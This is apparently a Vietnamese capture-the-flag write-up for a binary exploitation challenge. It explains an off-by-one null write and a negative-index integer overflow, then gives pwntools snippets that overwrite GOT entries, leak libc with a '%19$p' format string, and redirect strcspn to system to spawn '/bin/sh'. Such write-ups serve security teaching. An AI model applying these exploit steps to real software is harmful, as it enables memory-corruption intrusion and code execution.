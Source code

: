 **1. Tìm bug**

 - ![image-20230323205134065](./assets/image-20230323205134065.png)

 - checksec thì thấy `relro partial` do đó ta có thể ghi đè phân vùng `got`, cũng như `pie` tắt dễ dàng cho việc ghi đè các địa chỉ hàm.

 - ![image-20230323201912405](./assets/image-20230323201912405.png)

 - Tại `main` có call 3 hàm chính đó là `user_register`, `user edit` và `menu` trong đó `menu` là một `loop`.

 - ta sẽ đi vào 2 hàm của `user`

 - ![image-20230323202849145](./assets/image-20230323202849145.png)

 - ![image-20230323202906186](./assets/image-20230323202906186.png)

 - Nhìn thì có thể thấy ngay lỗi `off byte one` khi mà `strncpy` với lượng `size + 1`, với `max_size` là `0x100` tuy nhiên tới đây tôi vẫn chưa thấy gì về công dụng của nó

 - Sau khi tiến vào `menu` ta được cho các `option` sau:

 - ![image-20230323204731897](./assets/image-20230323204731897.png)

 - Ta có thể thấy được lỗi `interger overflow` tại hàm `configure_engine`

 - ![image-20230323205000714](./assets/image-20230323205000714.png)

 - Với `num` là `int` do đó ta có thể nhập nó với giá trị âm, khiến `&engines + 16*num` trỏ vào phân vùng `got`, ý tưởng ở đây là ta sẽ thay đổi `exit@got` thành `user_edit` và `strcspn@got` thành `printf` để leak `libc`.
 - Sau khi có `libc` ta sẽ ghi lại hàm `strcspn@got` thành `system`
 - Để thực thi được thì ta phải đưa `*curr_user + 64 = 1`, khi mà `*curr_user + 64` lại được set bằng 2 ở hàm `setup`

 - ![image-20230323211059286](./assets/image-20230323211059286.png)
 - và ta cũng có thể thay đổi nó thông qua hàm `change_role` 
 - ![image-20230323211212961](./assets/image-20230323211212961.png)
 - Tuy nhiên `*curr_user + 64` đến đây thì ta đã biết được lỗi `off byte one` kia để làm gì rồi đấy, ta sẽ sử dụng nó để đè `null` byte vào thằng này và có thể thực thi được `change_role`

**2. Exploit**

 - ```python
   payload = b'a'*0x100
   sa(b'username: ', payload)
   sla(b'> ', b'n')    
   sla(b'size: ', str(0x100).encode())
   sa(b'username: ', b'a'*255)
   ```

 - đầu tiên ta sẽ thay đổi `curr_user + 64` thành `null`, do `DWORD` nên ta sẽ `*4` trên `gdb` để kiểm tra

 - ![image-20230323212852438](./assets/image-20230323212852438.png)

 -  ```python
    choice(5)
    sla(b'role: ', b'1')
    
    config_eng(-7, exe.sym['user_edit'], 0, b'y')
    config_eng(-12, exe.sym['printf'], 0x4010d0, b'y')
    
    ```

 - Tiếp ta thay đổi `*curr_user + 64` thành `1`, `exit@got` thành `user_edit` và `strcspn@got` thành `printf` do địa chỉ kế cận cũng sẽ bị thay đổi nên ở `strcspn@got + 8` tức `fgets@got` ta sẽ đưa địa chỉ nguyên thủy của nó để tránh lỗi là `0x4010d0`

 - ![image-20230323213003493](./assets/image-20230323213003493.png)

 - ```python
   choice(0)
   sla(b'size: ', b'100')
   sla(b'username: ', b'%19$p')
   libc.address = int(r.recv(14), 16) - 0x29d90
   print(hex(libc.address))
   ```

 - Tiếp theo ta quay lại `user_edit` bằng `exit` và thực hiện leak `libc` thông qua `strcspn(s, "\n")` với `s` là `buffer` được nhập vào.

 - ```python
   config_eng(-12, libc.sym['system'], 0x4010d0, b'y\x00\x0a')
   
   choice(0)
   sla(b'size: ', b'100')
   sla(b'username: ', b'/bin/sh\x00')
   ```

 - Sau khi leak `libc` ta sẽ ghi `strcspn@got` thành `system` và thực thi lấy `shell` thông qua `user_edit`

 - ![image-20230323213413224](./assets/image-20230323213413224.png)

	- ![image-20230323213434773](./assets/image-20230323213434773.png)

